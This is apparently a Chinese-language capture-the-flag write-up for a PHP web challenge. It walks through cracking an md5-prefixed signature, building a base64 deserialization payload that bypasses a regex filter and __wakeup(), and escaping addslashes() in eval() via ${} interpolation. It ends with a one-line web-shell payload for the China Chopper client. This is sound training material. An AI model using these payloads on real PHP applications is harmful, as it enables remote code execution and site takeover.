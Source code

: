 ```yaml
---
title: Hash
date: 2018-02-5 00:00:00
categories:
- CTF/Web
tags: 百度杯十月
---
```


## url参数

```html
index.php?key=123&hash=f9109d5f83921a551cf859f853afe7bb

you are 123;if you are not 123,you can get the flag<br>

<!--$hash=md5($sign.$key);the length of $sign is 8
```

- cmd5解一下这个hash：kkkkkk01123（不知道爆破要多久？）
- 随便构造一个key比如456

```php
<?php
echo md5("kkkkkk01456");//2a5414055268d6f1f82288af38e5ce4e
?>
```

- 提交一下，得到提示`Gu3ss_m3_h2h2.php`

```html
index.php?key=456&hash=2a5414055268d6f1f82288af38e5ce4e
```

## 反序列化绕过
Gu3ss_m3_h2h2.php源码

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 

        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} 
?>
```

- 构造反序列化字符串

```php

<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

$a = new Demo("f15g_1s_here.php");
echo serialize($a)."\n";
echo base64_encode(serialize($a));
?>
```

- 这里如果直接打印字符串有有一个奇怪的输出:  
O:4:"Demo":1:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";}  

有两个NUL（%00）字符导致对整个字符串操作起来很麻烦，复制的时候会被截断。后来知道这个==NUL==字符是对类中private这种私有成员的序列化后的一个标记。所以最好的办法就是给字符串转成base64然后在burp里的编码工具操作，可以转成ascii和修改十六进制。

> 这里有更奇怪的实验，我先把file的属性改成public，生成一个序列化字符串，然后我再发file的属性改回private，然后用刚才那个字符串反序列化后居然生成可两个对象。（待讨论）

- 绕过正则匹配

```php
preg_match('/[oc]:\d+:/i', $var);
```

> 1. [xyz]
字符集合。匹配所包含的任意一个字符。例如，“[abc]”可以匹配“plain”中的“a”
> 2. ：就是冒号
> 3. \d是匹配一个数字字符相当于[0-9]
> 4. +匹配前面子表达式一次或多次

所以这个其实匹配了序列化字符串开始的部分O:4:  
尝试了O:0x4:失败  
最后用O:+4:绕过

O:+4:"Demo":1:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";} 

- 绕过__wakeup()方法  

修改序列化字符串中对象的个数，使其不正确即可

O:+4:"Demo":2:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";} 

- base64编码后提交（burp工具里改）  

从最早没有修改过的base64入手

```
Tzo0OiJEZW1vIjoxOntzOjEwOiIARGVtbwBmaWxlIjtzOjE2OiJmMTVnXzFzX2hlcmUucGhwIjt9
```

改完如下，提交得到f15g_1s_here.php源码
```
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQ==
```

## 绕过addslashes

f15g_1s_here.php源码

```php
<?php 
if (isset($_GET['val'])) { 
    $val = $_GET['val']; 
    eval('$value="' . addslashes($val) . '";'); 
} else { 
    die('hahaha!'); 
} 
?>
```

- 分析最后会拼出一个$value="xxxx";的php语句来执行
- addslashes()这个方法会在单引号（'）、双引号（"）、反斜线（\）与NUL（NULL字符）前添加反斜杠。
- 想用宽字节把双引号逃逸出来，然后就可以命令注入了。类似`%df%22phpinfo();//`这种，发现并没用。

## php黑魔法之双引号

> 这里其实用到一个php的黑魔法就是在双引号包含的字符串中运行一个函数。例子如下:

```php
<?php
$a = 'hello';
echo "$a";
?>
```
这里会输出`hello`，由于双引号的包裹可以导致$符号后面的字符被理解为变量，而打印出变量内容。单引号无效。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "$$a";
?>
```
输出为`hello$hello`，说明双引号中的连用的$符号只能被解析一次，不能被嵌套。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "${$a}";
?>
```

输出为`helloworld`，这里用大括号将$符号进行隔开，使其可以被嵌套解析。这里大括号的作用是在变量间接引用中进行定界。

---

```php
<?php
$var="${phpinfo()}";
?>
```

那么问题来了，这里为什么会执行phpinfo()呢？
- 首先双引号包裹并存在$符号，于是$等着被解析成变量
- 存在大括号定界，$符号的的变量名就是{}中的内容了
- 但是大括号里是一个函数，于是该函数的返回结果才是$认为的变量名（php就是这么奇怪），于是函数被运行。

综上php双引号中可以直接执行函数！将函数用${}包裹即可！  

```php
//最后这题payload如下,然后菜刀
?val=${@eval($_POST[0])}
```
